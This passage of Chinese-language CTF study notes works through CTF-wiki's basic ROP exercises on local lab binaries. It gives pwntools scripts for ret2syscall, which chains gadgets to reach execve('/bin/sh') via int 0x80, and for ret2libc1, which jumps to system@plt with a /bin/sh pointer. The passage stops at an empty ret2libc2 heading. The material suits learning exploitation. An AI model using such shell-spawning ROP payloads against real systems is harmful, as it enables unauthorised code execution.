 但是，使用ROPgadget可以发现该文件存在`int 0x80`指令，另外还有字符串`/bin/sh`因此，可以利用系统调用`execve('/bin/sh')`进行漏洞利用。

通过查表可以知道execve的系统调用号位0x0b，第一个参数即位需要执行的文件名。再用ROPgadget找到可以pop eax,ebx,ecx,edx并ret的地址。

```
#!/usr/bin/env python

# 0x08049421 : int 0x80
# 0x080be408 : /bin/sh
# 0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
# 0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret

from pwn import *

sh = process('./rop')

binsh_addr = 0x080be408
int80_addr = 0x08049421
pop4_addr = 0x0809ddda
pop3_addr = 0x0806eb90

# gdb.attach(sh)

payload = flat(['A'*0x6c, 0xdeadbeef, pop4_addr, 0xb, 0, 0, 0, pop3_addr, 0, 0, binsh_addr, int80_addr])

sh.sendline(payload)
sh.interactive()
```

#### [ret2libc1](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2libc)

```python
#!/usr/bin/env python

from pwn import *

# 08048460 system
# 08048720 : /bin/sh

sh = process('./ret2libc1')
# gdb.attach(sh)
system = 0x08048460
binsh = 0x08048720
payload = flat(['A'*0x6c,0xdeadbeef,system,0xdeadbeef,binsh])

sh.sendline(payload)
sh.interactive()
```

这里需要注意的地方就是，使用.plt里面的ystem函数，一开始不小心复制成.got中system函数的地址了，这样自然不行，因为.got是不可执行的。

#### [ret2libc2](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#2)
